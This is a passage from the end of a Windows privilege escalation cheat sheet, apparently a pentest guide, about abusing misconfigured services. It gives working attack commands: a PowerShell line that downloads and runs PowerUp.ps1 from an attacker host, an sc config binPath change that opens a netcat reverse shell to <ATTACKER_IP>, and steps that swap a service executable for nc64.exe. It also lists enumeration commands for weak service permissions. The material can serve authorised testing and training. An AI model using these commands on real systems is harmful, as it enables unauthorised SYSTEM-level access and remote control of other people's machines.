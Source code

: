 ```
```

6) Verify and cleanup
- Confirm SYSTEM:
```
whoami /all
```
- Remove droppers, restore originals, revert service config.

7) One-shot automated enumeration (optional)
- PowerUp.ps1:
```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<ATTACKER_IP>/PowerUp.ps1'); Invoke-AllChecks"
```
- WinPEAS:
```
winpeasx64.exe
```

## Practical tips
- Always verify the service StartName: targeting LocalSystem yields SYSTEM.
- For unquoted paths, you need both: an unquoted path and write access to one of the candidate directories.
- If you cannot stop/start a service, wait for a system restart or find a service you can control.
- Be careful with sc config binPath=. Include quotes properly and keep the space after the equals sign.
- Prefer minimally destructive payloads and restore the original state to avoid breaking the service.
- If accesschk isn’t available, rely on sc sdshow, icacls, and PowerShell Get-Acl for manual checks.
- If file is locked, try stopping the service first; if still locked, plan for startup-time replacement or another vector.

## Minimal cheat sheet (one-screen flow)
- Enumerate:
```
powershell -nop -c "Get-CimInstance Win32_Service | select Name,StartName,State,StartMode,PathName | ft -a"
```
- Unquoted paths:
```
powershell -nop -c "Get-WmiObject Win32_Service | ? { $_.PathName -and $_.PathName -notmatch '\"' -and $_.PathName -match ' ' } | select Name,StartName,PathName | ft -a"
```
- Service perms:
```
accesschk64.exe -uwcqv "Authenticated Users" *
```
- File/dir perms:
```
icacls "<TARGET_EXE>"
icacls "<TARGET_DIR>"
```
- Change binPath abuse:
```
sc stop <SERVICE>
sc config <SERVICE> binPath= "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc64.exe -e cmd.exe <ATTACKER_IP> <LPORT>"
sc start <SERVICE>
```
- Replace binary abuse:
```
copy "<TARGET_EXE>" "C:\Users\Public\orig_<SERVICE>.exe"
copy "C:\Users\Public\nc64.exe" "<TARGET_EXE>"
sc stop <SERVICE> & sc start <SERVICE>
```